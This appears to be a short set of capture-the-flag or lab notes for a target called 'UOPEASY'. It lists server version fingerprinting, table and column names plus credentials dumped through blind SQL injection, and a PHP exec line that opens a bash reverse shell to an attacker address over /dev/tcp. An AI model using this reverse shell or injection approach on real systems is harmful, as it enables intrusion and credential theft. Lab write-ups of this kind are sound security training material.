 # UOPEASY

Apache/2.4.7 (Ubuntu) Server at 10.10.113.36 Port 80
Wordpress 4.7.9.1
X-Powered-By: PHP/5.4.35

# Blind SQLi

- database = login
- table = users
- columns =
    - user_name
    - password
- dump
    - candyshop:password
    - Sir:PopRocks

- database = wordpress8080
- table = users
- columns =
    - username
    - password
- dump
    - admin
    - SuperSecretPassword

# Reverse shell
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.1.148/9090 0>&1'");